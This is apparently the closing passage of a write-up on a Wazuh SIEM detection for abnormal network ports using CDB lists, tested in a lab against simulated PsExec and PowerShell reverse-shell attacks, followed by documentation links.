By leveraging **CDB constant database lists**, our detection engine evaluates high-volume network telemetry at $O(1)$ constant time without inducing performance degradation. The solution was subjected to real adversary simulation—both a compiled binary payload via Metasploit PsExec and an in-memory PowerShell reverse shell—and achieved **100% detection fidelity** in the Wazuh SIEM Dashboard.

### Official References & Documentation:
* [Wazuh Documentation — CDB Lists](https://documentation.wazuh.com/current/user-manual/ruleset/cdb-lists.html)
* [Wazuh Documentation — Monitoring Windows Event Logs](https://documentation.wazuh.com/current/user-manual/capabilities/log-data-collection/how-to-collect-wlogs.html)
* [Microsoft Learn — Sysinternals Sysmon](https://learn.microsoft.com/en-us/sysinternals/downloads/sysmon)
* [MITRE ATT&CK — Non-Standard Port (T1571)](https://attack.mitre.org/techniques/T1571/)
* [SOCFortress — Detecting Abnormal Network Ports With Wazuh](https://socfortress.medium.com/detecting-abnormal-network-ports-with-wazuh-6188ee8ed156)
* [INE Security Lab Portal](https://my.ine.com/labs/89688258-d373-40a5-a885-9ef8dd7b60a9)
